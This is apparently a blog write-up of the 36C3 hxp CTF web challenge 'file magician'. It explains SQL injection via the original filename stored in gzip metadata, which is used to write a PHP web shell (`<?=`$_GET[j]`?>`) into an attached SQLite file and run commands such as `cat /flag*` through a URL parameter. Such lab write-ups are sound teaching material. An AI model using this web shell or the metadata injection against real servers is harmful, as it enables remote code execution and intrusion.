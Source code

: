 ```yaml
---
title: 36C3 Senior CTF - SQLi through file metadata to PHP RCE - file magician 
description: Performing SQL injection using file metadata to earn PHP RCE
categories: ctf 36c3 senior
author: Xh4H
tags: 36c3 senior ctf file magician file_magician sqli sqli_injection php php_rce rce remote code execution
---
```


**Challenge description**
```
Web
Difficulty: easy (133 solves): round(1000 · min(1, 10 / (9 + [133 solves]))) = 70 points

Finally (again), a minimalistic, open-source file hosting solution.

```

**Action**

We are given the following files:

<div style="text-align:center"><img src="/assets/images/36c3/files_1.png"/></div>

**index.php** with the code that we will have to analyze, a **Dockerfile** to set up our service locally, and a folder with required stuff for the said service.

Let's start by setting up a docker:

`echo 'hxp{FLAG}' > flag.txt && docker build -t file_magician . && docker run -ti -p 8000:80 file_magician`

<div style="text-align:center"><img src="/assets/images/36c3/docker_setup1.png"/></div>

Docker is now running on port 8000.

Let's read the php code now:

<div style="text-align:center"><img src="/assets/images/36c3/code_review1.png"/></div>

The attack vector is in the following line of code:

```php
$s = "INSERT INTO upload(info) VALUES ('" .(new finfo)->file($_FILES['file']['tmp_name']). " ');";
```

We have to perform SQLi using file metadata. After some research, `.gz` (gunzip) files have an interesting metadata string that will help us a lot.

Here is an example:

<div style="text-align:center"><img src="/assets/images/36c3/gunzip1.png"/></div>

Check how running `file` over the created gunzip displays the name of the original file **between double quotes**, which will break the SQL sentence. In the following image we can see in red the double quotes that will break the SQL sentence, in gray is our file metadata and finally in yellow, the previous file name, where will be inject our SQL code.

<div style="text-align:center"><img src="/assets/images/36c3/carbon_1.png"/></div>

So, I ran `nano` over the file and edited the previous file name into my SQLi sentence.

_The green marked text is the SQL sentence that I will use to get RCE_

<div style="text-align:center"><img src="/assets/images/36c3/sqli_create.png"/></div>

My php code will be
```php
<?=`$_GET[j]`?>
```

Explanation of the code above:

- `<?`: PHP opening tags.
- `=`: used to echo the output.
- \`: used to execute a string (as if we were using system function).
- `$_GET[j]`: used to retrieve the `j` url parameter
- `>?`: PHP closing tags.

Notice how I am attaching the DB on a file called `k.php`, if the file doesn't exist, it will be created on the current directory, which, in our case, is a random folder:

```php
if( ! isset($_SESSION['id'])) {
    $_SESSION['id'] = bin2hex(random_bytes(32));
}

$d = '/var/www/html/files/'.$_SESSION['id'] . '/';
@mkdir($d, 0700, TRUE);
chdir($d) || die('chdir');
```

**The SQL sentence max char length was 95, so I had to create two different gz, create.gz and insert.gz**

In `create.gz` I attach a new database to a php file and I create a table `p` with a column `d text` that will store my php code.

In `insert.gz` I attach the php sql connection into the newly created database and insert the php code:

<div style="text-align:center"><img src="/assets/images/36c3/sqli_insert.png"/></div>

We upload both files to the service and access our php file as following:

- create.gz to create the DB
- insert.gz to insert our code

Click on the second file:

<div style="text-align:center"><img src="/assets/images/36c3/service_1.png"/></div>

It will bring us to a link like this `http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/2`

Change the last 2 with `k.php` and we will be able to execute PHP code using the 
```php
`$_GET[j]`
```
that we placed before, as we will be accessing a php file that will be executed by the server. Use `j` as url parameter to execute any command within the host system.

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=id`

<div style="text-align:center"><img src="/assets/images/36c3/rce_1.png"/></div>

In order to find the flag, as it was generated with random chars in its name, we can use * to expand chars over a file on the system such as `cat /flag*`:

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=cat%20/flag*`

<div style="text-align:center"><img src="/assets/images/36c3/rce_2.png"/></div>

**Flag**: hxp{I should have listened to my mum about not trusting files about files}


Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>
